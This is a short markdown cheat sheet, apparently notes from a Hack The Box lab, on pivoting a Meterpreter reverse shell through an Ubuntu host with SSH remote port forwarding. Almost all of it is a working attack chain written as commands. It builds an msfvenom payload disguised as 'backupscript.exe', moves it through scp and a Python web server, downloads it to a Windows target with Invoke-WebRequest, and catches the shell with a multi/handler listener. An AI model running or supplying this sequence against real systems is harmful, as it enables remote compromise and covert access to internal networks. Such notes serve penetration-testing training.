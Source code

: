 # Remote/Reverse Port Forwarding with SSH
## Attack Host
1. Create a payload using msfvenom with the Ubuntu IP address
```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```
2. Transfer the payload 
```
scp backupscript.exe ubuntu@<ipAddressofTarget>:~/
```
## Ubuntu Pivot Host
3. Starting Python3 Webserver on Pivot Host
```
ubuntu@Webserver$ python3 -m http.server 8123
```
4. Transfer the file to the Windows Host on the internal network
## Windows Host
5. Downloading Payload from Windows Target
```
PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```
## Attack Host
6. Start msfconsole
```
use exploit/multi/handler
```
```
set playload windows/x64/meterpreter/reverse_https
```
```
set lhost 0.0.0.0
```
```
set lport 8000
```
```
run
```
7. Using SSH -R
```
w1j0y@htb[/htb]$ ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```
## Windows Host
8. Execute the backupscript.exe file
### Port forwarding flow
#### Executing backupscript.exe -> create a reverse shell back to the Ubuntu Host -> Ubuntu Host will forward the command on port 8000 to our Attack Host -> shell pivoted via the Ubuntu machine -> Meterpreter Shell